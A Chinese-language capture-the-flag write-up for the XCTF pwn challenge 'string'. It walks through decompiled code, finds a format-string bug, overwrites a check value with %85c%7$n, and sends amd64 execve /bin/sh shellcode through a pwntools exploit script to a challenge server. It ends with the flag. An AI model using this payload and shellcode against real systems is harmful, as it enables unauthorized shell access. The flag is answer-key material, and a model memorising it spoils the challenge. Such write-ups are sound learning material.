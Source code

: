 # string

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=fed5e7f5-673a-4b4e-b0f1-9a6c96c3a5b0_2&task_category_id=2)

这题代码量比较大，但是也不至于7级吧？

运行发现长篇的英语，先不看了，反编译+checksec走起。

-   Arch:     amd64-64-little
    <br>RELRO:    Full RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <Br>PIE:      No PIE (0x400000)

```c
undefined8 main(void)
{
  long lVar1;
  undefined4 *puVar2;
  long in_FS_OFFSET;
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  alarm(0x3c);
  PrintMenu();
  puVar2 = (undefined4 *)malloc(8);
  *puVar2 = 0x44;
  puVar2[1] = 0x55;
  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n",puVar2);
  printf("secret[1] is %x\n",puVar2 + 1);
  puts("do not tell anyone ");
  CreateCharacter(puVar2);
  puts("The End.....Really?");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

所以巫师告诉我们两个地址。不知道有啥用，进CreateCharacter看看。

```c
void CreateCharacter(undefined8 param_1)
{
  size_t sVar1;
  long in_FS_OFFSET;
  char local_28 [24];
  long local_10;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What should your character\'s name be:");
  __isoc99_scanf(&DAT_00401a8b,local_28);
  sVar1 = strlen(local_28);
  if (sVar1 < 13) {
    puts("Creating a new player.");
    FUN_00400a7d();
    FUN_00400bb9();
    FUN_00400ca6(param_1);
  }
  else {
    puts("Hei! What\'s up!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

给人物取个名字。没有漏洞，把那几个函数统统看一遍。

```c
void FUN_00400a7d(void)
{
  int iVar1;
  long in_FS_OFFSET;
  char local_18 [8];
  long local_10;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts(" This is a famous but quite unusual inn. The air is fresh and the");
  puts("marble-tiled ground is clean. Few rowdy guests can be seen, and the");
  puts("furniture looks undamaged by brawls, which are very common in other pubs");
  puts("all around the world. The decoration looks extremely valuable and would fit");
  puts("into a palace, but in this city it\'s quite ordinary. In the middle of the");
  puts("room are velvet covered chairs and benches, which surround large oaken");
  puts("tables. A large sign is fixed to the northern wall behind a wooden bar. In");
  puts("one corner you notice a fireplace.");
  puts("There are two obvious exits: east, up.");
  puts("But strange thing is ,no one there.");
  puts("So, where you will go?east or up?:");
  while( true ) {
    __isoc99_scanf(&DAT_00401a8b,local_18);
    iVar1 = strcmp(local_18,"east");
    if (iVar1 == 0) break;
    iVar1 = strcmp(local_18,"east");
    if (iVar1 == 0) break;
    puts("hei! I\'m secious!");
    puts("So, where you will go?:");
  }
  iVar1 = strcmp(local_18,"east");
  if (iVar1 != 0) {
    iVar1 = strcmp(local_18,"up");
    if (iVar1 != 0) {
      puts("YOU KNOW WHAT YOU DO?");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    FUN_004009dd();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

讲了一个没什么用的背景故事。FUN_004009dd也不重要就不放了。

```c
void FUN_00400bb9(void)
{
  long in_FS_OFFSET;
  int local_84;
  undefined8 local_80;
  char local_78 [104];
  long local_10;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_80 = 0;
  puts("You travel a short distance east.That\'s odd, anyone disappear suddenly");
  puts(", what happend?! You just travel , and find another hole");
  puts("You recall, a big black hole will suckk you into it! Know what should you do?");
  puts("go into there(1), or leave(0)?:");
  __isoc99_scanf(&DAT_0040179a,&local_84);
  if (local_84 == 1) {
    puts("A voice heard in your mind");
    puts("\'Give me an address\'");
    __isoc99_scanf(&DAT_00401c00,&local_80);
    puts("And, you wish is:");
    __isoc99_scanf(&DAT_00401a8b,local_78);
    puts("Your wish is");
    printf(local_78);
    puts("I hear it, I hear it....");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

printf(local_78); 明显格式化字符串漏洞。但是还不知道怎么利用，肯定是无法实施栈溢出这种漏洞的。

```c
void FUN_00400ca6(int *param_1)
{
  long lVar1;
  code *__buf;
  long in_FS_OFFSET;
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!");
  puts("Dragon say: HaHa! you were supposed to have a normal");
  puts("RPG game, but I have changed it! you have no weapon and ");
  puts("skill! you could not defeat me !");
  puts("That\'s sound terrible! you meet final boss!but you level is ONE!");
  if (*param_1 == param_1[1]) {
    puts("Wizard: I will help you! USE YOU SPELL");
    __buf = (code *)mmap((void *)0x0,0x1000,7,0x21,-1,0);
    read(0,__buf,0x100);
    (*__buf)(0);
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

你还记得param_1是啥吗？往上走发现param_1由CreateCharacter传入自己的参数，CreateCharacter的参数来自于main的puVar2。__buf中存储的内容会被执行（从(*__buf)(0)这种调用方式以及code类型看出）。回到main看看puVar2是啥。

- *puVar2 = 0x44;
  <br>puVar2[1] = 0x55;

*param_1对应0x44，param_1[1]对应0x55，明显不符合要求，我们需要改写这个值。说到改写，刚刚不是有个格式化字符串漏洞吗？算一下偏移。

- AAAAAAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
> Your wish is
AAAAAAAA,0x1,0x1,0x7ff9f8424a37,0xc,(nil),0x1f8587040,0x1,0x4141414141414141,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x7ffe41c97200,0x7ffe41c97488

偏移是8。格式化字符串任意写开始。我们需要把*puVar2改写成0x55，也就是85，所以使用%n需要打印85个字符。

- %85c%7$n

%85c打印85个字符，%7$n我不太明白，一直当作占位符来用，写哪个偏移就往哪个偏移对应的地址写入%n格式化的内容。

然后就是进入if语句后要执行的代码。跟rop链区分开，这里要执行的是shellcode。shellcode在pwntools中有，但是在我本机的pwntools中打印不出来。行吧，换个机子打印接着抄过来。

```python
from pwn import *
print(asm(shellcraft.amd64.linux.sh(),arch='amd64').hex(' '))
```

- ### asm
  - 编译指定汇编
  - 语法：pwnlib.asm.asm(code, vma = 0, extract = True, shared = False, ...) → str
  - 参数
    > shellcode (str) – 要编译的汇编代码
    > kwargs (dict) – 在context定义的任何属性，比如arch='arm'

就看一下常用的两个参数就好了。shellcraft.amd64.linux.sh()返回amd64位下的linux的shellcode，编译后就变成了字节。直接打印字节python会尝试转换成字符，所以用hex将原始内容打印出来。记得补上\x，自己手打或者程序都行。exp就出来了。

```python
from pwn import *
p=remote("61.147.171.105",53896)
p.recvuntil("secret[0] is ")
addr=int(p.recv(7),16)
payload=b"%85c"+b'%7$n'
p.sendlineafter("What should your character's name be:",'a')
p.sendlineafter("So, where you will go?east or up?:",'east')
p.sendlineafter("go into there(1), or leave(0)?:",'1')
p.sendlineafter("'Give me an address'",str(addr))
p.sendlineafter("And, you wish is:",payload)
shell_code=b'\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05'
p.sendlineafter("Wizard: I will help you! USE YOU SPELL",shell_code)
p.interactive()
```

- ### Flag
  > cyberpeace{54874bdcf88ce67107d6f6b1a1372acb}
